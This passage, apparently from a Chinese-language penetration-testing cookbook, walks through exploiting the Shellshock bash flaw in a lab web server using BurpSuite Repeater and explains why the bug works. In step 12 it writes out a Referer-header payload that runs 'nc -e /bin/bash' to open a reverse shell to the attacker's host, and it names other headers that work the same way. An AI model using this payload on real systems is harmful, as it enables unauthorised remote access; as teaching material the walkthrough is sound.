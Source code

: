 11.  现在访问 BurpSuite 的代理历史，选择任何`shellshock.sh`的请求，右击它并发送到 Repeater，像这样：

    ![](../img/326eef49a04c6813268a287f23c95940.png)

12.  在 Repeater 中，修改 Referer 的值为：

    ```
    () { :;}; echo "Vulnerable:" $(/bin/sh -c "nc -e /bin/bash 192.168.56.1 12345")
    ```

    这里，192.168.56.1 是我们 Kali 主机的地址。

13.  点击`Go`。

14.  如果我们检查我们的终端，我们可以看到连接已建立，执行一些命令来检查我们是否得到了远程 shell。

    ![](../img/5611bf877a7ea776f9879f3db06560aa.png)

### 工作原理

在第一步中，我们发现了 shell 脚本的调用。因为它可以被 shell 解释器运行，它可能是漏洞版本的 bash。为了验证，我们执行了下列测试：

```
() { :;}; echo "Vulnerable:" 
```

第一个部分`() { :;};`是个空函数，因为 bash 可以将函数储存为环境变量，这个是漏洞的核心。在函数结束之后，解析器会继续解释（并执行）命令，这允许我们执行第二个部分`echo "Vulnerable:`，这是简单返回输入的命令。

Web 服务器中存在漏洞，因为 CGI 事先将请求的所有部分映射为环境变量，所以这个攻击通过`User-Agent`或者`Accept-Language`也能工作。

